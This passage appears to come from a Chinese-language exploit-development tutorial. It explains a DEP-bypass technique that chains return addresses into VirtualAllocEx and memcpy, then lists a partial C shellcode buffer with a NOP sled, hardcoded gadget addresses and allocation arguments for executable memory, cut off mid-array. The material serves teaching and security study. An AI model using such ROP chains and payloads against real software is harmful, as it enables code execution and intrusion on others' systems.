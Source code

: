 
再来分析第二个问题，在执行完 PUSH 操作后收回程序控制权的最佳位置在 EBP+0x14，因为在这个位置执行 RETN 指令既保证了 memcpy 参数不被破坏，又可以减小 shellcode 长度。故在执行完 PUSH 操作后我们只需要 POP 两次就可以让 ESP 指向 EBP+0x14，所以 JMP EAX 指令中的 EAX 只要指向类似 POP POP RETN 指令即可。然后在 EBP+0x14 位置放置 memcpy
函数的切入点 0x7C94AFAC（```MOV ESI,DWORD PTR SS:[EBP+C]```），这样程序在执行类似 ```POP POP RETN``` 指令中 RETN 时就可以转入 memcpy 函数中执行复制操作了。

我们按照以上分析和 memcpy 对参数的要求来布置 shellcode，代码如下所示。

```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
```